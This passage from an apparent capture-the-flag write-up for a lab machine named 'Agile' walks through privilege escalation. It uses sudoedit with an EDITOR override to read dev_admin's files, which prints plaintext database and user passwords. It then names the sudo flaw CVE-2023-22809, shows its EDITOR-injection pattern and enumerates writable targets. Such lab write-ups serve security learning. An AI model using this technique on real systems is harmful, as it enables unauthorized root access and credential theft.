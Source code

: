 `sudoedit` will allow us to read/write these specific files as `dev_admin`. The env `EDITOR` before the command allows us change the editor used to open the file. If we want only to read the file we can change it to `cat`.

```bash
edwards@agile:~$ ls -lha /app/config_test.json /app/app-testing/tests/functional/creds.txt
-r--r----- 1 dev_admin runner 99 Jan 25  2023 /app/config_test.json
-rw-r----- 1 dev_admin runner 34 Jun 25 06:18 /app/app-testing/tests/functional/creds.txt
```

```bash
edwards@agile:~$ EDITOR="cat" sudoedit -u dev_admin /app/config_test.json
[sudo] password for edwards: 
{
    "SQL_URI": "mysql+pymysql://superpasstester:VUO8A2c2#3FnLq3*a9DX1U@localhost/superpasstest"
}sudoedit: /app/config_test.json unchanged
```

```bash
edwards@agile:~$ EDITOR="cat" sudoedit -u dev_admin /app/app-testing/tests/functional/creds.txt
edwards:1d7ffjwrx#$d6qn!9nndqgde4
sudoedit: /app/app-testing/tests/functional/creds.txt unchanged
```

## CVE-2023-22809 - sudo 1.8.0 to 1.9.12p1 - Privilege Escalation

It seems there is a bug on the `sudoedit` version we are have available.

```bash
edwards@agile:~$ sudoedit -V
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9
```

From [Exploit DB CVE-2023-22809](https://www.exploit-db.com/exploits/51217), it seems we can abuse the `EDITOR` variable adding other files after the name of editor we want to use.

Example:

```bash
EDITOR="vim -- /etc/sudoers" $EXPLOITABLE
```

Lets find useful files that we could edit.

```bash
edwards@agile:~$ find / -user dev_admin 2>/dev/null
/home/dev_admin
/app/app-testing/tests/functional/creds.txt
/app/config_test.json
/app/config_prod.json
```

```bash
edwards@agile:~$ find / -group dev_admin 2>/dev/null
/home/dev_admin
/app/venv
/app/venv/bin
/app/venv/bin/activate
/app/venv/bin/Activate.ps1
/app/venv/bin/activate.fish
/app/venv/bin/activate.csh
```
